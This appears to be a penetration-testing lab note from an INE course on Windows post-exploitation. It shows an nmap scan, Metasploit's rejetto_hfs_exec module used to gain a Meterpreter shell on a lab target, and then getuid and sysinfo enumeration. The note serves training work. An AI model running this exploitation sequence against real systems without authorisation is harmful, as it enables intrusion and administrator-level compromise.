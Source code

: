 # 🔬Windows Post-Exploitation

> 🔬 INE LAB
>
> - Target IP: `10.2.16.155`
> - **Local Windows Enumeration**

> 📝📌 **Always document and save all the Post-Exploitation Local Enumeration in a local file.**

## Enumeration & Exploitation

```bash
nmap -sV 10.2.16.155
    80/tcp    open  http         HttpFileServer httpd 2.3
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    3389/tcp  open  ssl/ms-wbt-server?
    49152/tcp open  msrpc        Microsoft Windows RPC
    49153/tcp open  msrpc        Microsoft Windows RPC
    49154/tcp open  msrpc        Microsoft Windows RPC
    49155/tcp open  msrpc        Microsoft Windows RPC
```

```bash
searchsploit rejetto
service postgresql start && msfconsole -q
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
setg RHOSTS 10.2.16.155
setg RHOST 10.2.16.155
run
	meterpreter >
```

## Local Enumeration

### System Information

- In the **`Meterpreter`** session

```bash
getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
```
